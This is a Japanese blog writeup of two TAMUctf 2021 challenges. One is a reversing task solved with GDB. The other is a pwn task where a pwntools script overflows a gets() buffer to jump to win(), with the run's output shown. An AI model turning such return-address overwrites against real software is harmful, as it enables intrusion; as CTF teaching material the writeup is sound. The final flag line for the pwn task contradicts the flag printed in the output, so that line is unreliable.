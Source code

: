 ```yaml
---
title: "TAMUctf 2021 Writeup"
date: 2021-05-04T15:30:00+09:00
lastmod: 2021-05-04T15:30:00+09:00
draft: false
keywords: []
description: ""
tags: ["CTF"]
categories: ["CTF"]
author: ""
---
```

{{% right %}}
<a href="https://translate.google.com/translate?hl=en&sl=ja&tl=en&u=https%3A%2F%2Fcaptureamerica.github.io%2Fwriteups%2Fpost%2Ftamuctf_2021%2F">
<img src="https://captureamerica.github.io/writeups/img/En.png" alt="English">
</a>
{{% /right %}}

URL: [https://tamuctf.com/challenges](https://tamuctf.com/challenges)
<br /><br />
去年のTAMU CTF 2020 ([Writeup](https://captureamerica.github.io/writeups/post/tamuctf_2020/)) は Network Pentest のチャレンジがあったりしたんですが、今年はなかったですね。残念〜。

<br />

800 points取りました。順位は、94thだったみたいです。（CTF TIME情報）

<br />

以下が解いたチャレンジです。

<img src="https://captureamerica.github.io/writeups/img/tamuctf_2021_Solved.png" alt="tamuctf_2021_Solved.png">

<br />


<br /><br />
## [Reversing]: Acrylic (100 points)
- - -
### Challenge
> This is an easy challenge. There is a flag that can be printed out from somewhere in this binary. Only one problem: There's a lot of fake flags as well.
<br /><br />
Hint: Try using GDB

Attachment:

- acrylic (ELF 64bit)


<br />
### Solution
問題文にあるように Fake flag が沢山あるため、stringsコマンドは使えません。<br /> (いちおう正解フラグもstringsで出てくるので、ひたすらSubmitしたら、そのうち当たりますけど。。)

<br />
GDBを使う前に、Ghidraでコードを見てみます。

```C
undefined8 main(void)
{
  puts("look at the code");
  return 0;
}


char * get_flag(void)
{
  int local_10;
  uint local_c;
  
  local_10 = 0x7b;
  local_c = 0;
  while (local_c < 0x7e4) {
    local_10 = ((local_10 + 1) * local_10) % 0x7f;
    local_c = local_c + 1;
  }
  return flags + (long)local_10 * 0x40;
}
```

<br />
main()は文字列を表示して終了するだけの関数です。

get_flag()は関数名から予想するに、flagを取得するための関数です。

<br />

GDBを使ってやることは、

1. main() で一旦break
2. get_flag() にもbreakをかけて、get_flag() へjump
3. returnする直前にbreakをかけて、戻り値を確認

となります。get_flag() 自体は flag を printf しないので、GDB内で値を確認する必要があります。

<br />

<pre>
gef➤ b main
gef➤ b get_flag
gef➤ jump get_flag
gef➤ disas get_flag
gef➤ b *0x00005555555546ab
gef➤ c

$rax   : 0x0000555555756620  →  "gigem{counteradvise_orbitoides}"
</pre>

<br />

Flag: `gigem{counteradvise_orbitoides}`



<br /><br />
<br /><br />
## [Pwn]: Handshake (150 points)
- - -
### Challenge
> Attack this binary and get the flag!
<br /><br />
openssl s_client -connect tamuctf.com:443 -servername handshake -quiet

Attachment:

- handshake (ELF 32bit)


<br />
### Solution
まず、問題文に出てくる openssl コマンドについてですが、News (announcement) で以下が出ていました。

<img src="https://captureamerica.github.io/writeups/img/tamuctf_2021_openssl.png" alt="tamuctf_2021_openssl.png">

<br />
socatでトンネルを確立したら、あとはローカルでやってるのと同じ感覚でできるようです。

<br /><br />

まずは、checksecを実行してみます。PIEは無効です。

<pre>
$ checksec handshake
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
</pre>

<br />
vuln() 関数でBOFができます。他に、win()関数があるので、BOFを起こしてwin()に飛ぶだけです。

```C
void vuln(void)

{
  char local_2c [36];
  
  printf("Whats the secret handshake? ");
  fflush((FILE *)0x0);
  gets(local_2c);
  putchar(10);
  return;
}
```

<br />
GDBでwin()のアドレスを確認。

<pre>
gef➤  b main
Breakpoint 1 at 0x8049321

gef➤  r
:

gef➤  p win
$1 = {&lt;text variable, no debug info&gt;} 0x80491c2 <win>
</pre>

<br />

書いたコード。

```Python
#!/usr/bin/env python
from pwn import *

s = remote('127.0.0.1', 4444)

payload = ''
payload += b'A' * 36
payload += b'B' * 8
payload += p32(0x080491c2)  # win()

s.sendlineafter("Whats the secret handshake? ", payload)
print s.recv()
```

<br />

結果：

<pre>
$ socat -d TCP-LISTEN:4444,reuseaddr,fork EXEC:'openssl s_client -connect tamuctf.com\:443 -servername handshake -quiet'

$ ./handshake_solve.py 
[+] Opening connection to 127.0.0.1 on port 4444: Done

Correct! gigem{r37urn_c0n7r0l1337}
</pre>

<br>

Flag: `gigem{z1pT4st1c__$kiLl$$$}`



<br /><br />
<br /><br />
- - -
<br /><br />
<br /><br />


